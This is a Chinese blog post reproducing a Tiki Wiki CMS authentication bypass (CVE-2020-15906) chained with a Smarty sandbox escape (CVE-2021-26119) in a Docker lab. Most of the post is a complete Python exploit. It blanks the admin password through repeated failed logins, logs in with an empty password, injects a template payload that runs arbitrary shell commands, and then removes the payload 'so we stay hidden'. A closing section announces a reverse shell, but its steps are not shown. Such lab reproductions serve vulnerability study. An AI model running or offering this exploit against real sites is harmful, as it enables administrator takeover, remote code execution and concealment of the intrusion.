




# Tiki Wiki CMS Groupware 认证绕过漏洞（CVE-2020-15906） - NoCirc1e - 博客园

> 原文：[`www.cnblogs.com/NoCirc1e/p/16283274.html`](https://www.cnblogs.com/NoCirc1e/p/16283274.html)

Tiki Wiki CMS Groupware 或简称为 Tiki（最初称为 TikiWiki）是一种免费且开源的基于 Wiki 的内容管理系统和在线办公套件。在如下这些版本 21.2, 20.4, 19.3, 18.7, 17.3, 16.4 前存在一处逻辑错误，管理员账户被爆破 60 次以上时将被锁定，此时使用空白密码即可以管理员身份登录后台。

参考链接：

*   [`info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3`](https://info.tiki.org/article473-Security-Releases-of-all-Tiki-versions-since-16-3)
*   [`github.com/S1lkys/CVE-2020-15906`](https://github.com/S1lkys/CVE-2020-15906)
*   [`packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html`](http://packetstormsecurity.com/files/159663/Tiki-Wiki-CMS-Groupware-21.1-Authentication-Bypass.html)
*   [`srcincite.io/pocs/cve-2021-26119.py.txt`](https://srcincite.io/pocs/cve-2021-26119.py.txt)

## 漏洞环境

执行如下命令启动一个 Tiki Wiki CMS 21.1：

```
docker-compose up -d
```



环境启动后，访问`http://your-ip:8080`可以看到其欢迎页面。



## 漏洞复现

我们可以使用[`srcincite.io/pocs/cve-2021-26119.py.txt`](https://srcincite.io/pocs/cve-2021-26119.py.txt)中的[POC](https://github.com/vulhub/vulhub/blob/master/tikiwiki/CVE-2020-15906/poc.py)进行复现。该 POC 先使用 CVE-2020-15906 绕过认证，获取管理员权限；再使用 Smarty 的沙盒绕过漏洞（CVE-2021-26119）于后台执行任意命令：

```
python poc.py your-ip:8080 / id
```



```
import requests
import sys
import re

def auth_bypass(s, t):
    d = {
        "ticket" : "",
        "user" : "admin",
        "pass" : "trololololol",
    }
    h = { "referer" : t }
    d["ticket"] = get_ticket(s, "%stiki-login.php" % t)
    d["pass"] = "" # blank login
    r = s.post("%stiki-login.php" % t, data=d, headers=h)
    r = s.get("%stiki-admin.php" % t)
    assert ("You do not have the permission that is needed" not in r.text), "(-) authentication bypass failed!"

def black_password(s, t):
    uri = "%stiki-login.php" % t
    # setup cookies here
    s.get(uri)
    ticket = get_ticket(s, uri)
    d = {
        'user':'admin', 
        'pass':'trololololol',
    }
    # crafted especially so unsuccessful_logins isn't recorded
    for i in range(0, 51):
        r = s.post(uri, d)
        if("Account requires administrator approval." in r.text):
            print("(+) admin password blanked!")
            return
    raise Exception("(-) auth bypass failed!") 

def get_ticket(s, uri):
    h = { "referer" : uri }
    r = s.get(uri)
    match = re.search('class="ticket" name="ticket" value="(.*)" \/>', r.text)
    assert match, "(-) csrf ticket leak failed!"
    return match.group(1)

def trigger_or_patch_ssti(s, t, c=None):
    # CVE-2021-26119
    p = { "page": "look" }
    h = { "referer" : t }
    bypass = "startrce{$smarty.template_object->smarty->disableSecurity()->display('string:{shell_exec(\"%s\")}')}endrce" % c
    d = {
        "ticket" : get_ticket(s, "%stiki-admin.php" % t),
        "feature_custom_html_head_content" : bypass if c else '',
        "lm_preference[]": "feature_custom_html_head_content"
    }
    r = s.post("%stiki-admin.php" % t, params=p, data=d, headers=h)
    r = s.get("%stiki-index.php" % t)
    if c != None:
        assert ("startrce" in r.text and "endrce" in r.text), "(-) rce failed!"
        cmdr = r.text.split("startrce")[1].split("endrce")[0]
        print(cmdr.strip())

def main():
    if(len(sys.argv) < 4):
        print("(+) usage: %s <host> <path> <cmd>" % sys.argv[0])
        print("(+) eg: %s 192.168.75.141 / id"% sys.argv[0])
        print("(+) eg: %s 192.168.75.141 /tiki-20.3/ id" % sys.argv[0])
        return
    p = sys.argv[2]
    c = sys.argv[3]
    p = p + "/" if not p.endswith("/") else p
    p = "/" + p if not p.startswith("/") else p
    t = "http://%s%s" % (sys.argv[1], p)
    s = requests.Session()
    print("(+) blanking password...")
    black_password(s, t)
    print("(+) getting a session...")
    auth_bypass(s, t)
    print("(+) auth bypass successful!")
    print("(+) triggering rce...\n")
    # trigger for rce
    trigger_or_patch_ssti(s, t, c)
    # patch so we stay hidden
    trigger_or_patch_ssti(s, t)

if __name__ == '__main__':
    main()
```


## 反弹 Shell

本地新建反弹文件



python 开启服务（在新建反弹文件所在文件夹打开终端）


RCE 执行反弹 Shell


成功反弹

注意，受到漏洞原理的影响，执行该 POC 会导致管理员账户被锁定。